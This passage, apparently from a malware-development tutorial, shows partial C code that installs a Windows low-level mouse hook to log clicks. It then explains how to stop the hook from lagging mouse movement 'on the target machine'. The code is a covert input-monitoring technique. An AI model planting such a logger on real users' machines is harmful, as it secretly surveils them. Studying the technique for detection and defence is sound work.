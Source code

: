 ```c
    // Installing hook 
    HHOOK hMouseHook = SetWindowsHookExW(
        WH_MOUSE_LL,
        (HOOKPROC)HookCallback,
        NULL,   
        NULL
    );
    if (!hMouseHook) {
        printf("[!] SetWindowsHookExW Failed With Error : %d \n", GetLastError());
        return FALSE;
    }

    // Keeping the thread running
    while(1){
    
    }
    
    return TRUE;
}


int main() {
  
    HANDLE hThread = CreateThread(NULL, NULL, (LPTHREAD_START_ROUTINE)MouseClicksLogger, NULL, NULL, NULL);
    if (hThread)
        WaitForSingleObject(hThread, 10000); // Monitor mouse clicks for 10 seconds

    return 0;
}
```

### Improving The Implementation

The issue with the prior code was that the while loop fails to process hooked mouse messages, which resulted in a laggy mouse movement on the target machine. To resolve this issue, it is necessary to process all message events using [DefWindowProc](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-defwindowprocw). This will ensure that the event is properly handled by the system and that any associated default behavior is carried out. `DefWindowProcW` calls the default window procedure to provide default processing for any window messages that an application does not process.

To get the message's details, [GetMessageW](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-getmessagew) must be called first, which retrieves a message from the calling thread's message queue. This message is then passed to `DefWindowProcW`, which will process it. `GetMessageW` returns the message information in an [MSG structure](https://learn.microsoft.com/en-us/windows/win32/api/winuser/ns-winuser-msg) which includes everything required for the following `DefWindowProcW` call.

All of this should be performed within a loop to ensure every unprocessed message is manually handled.
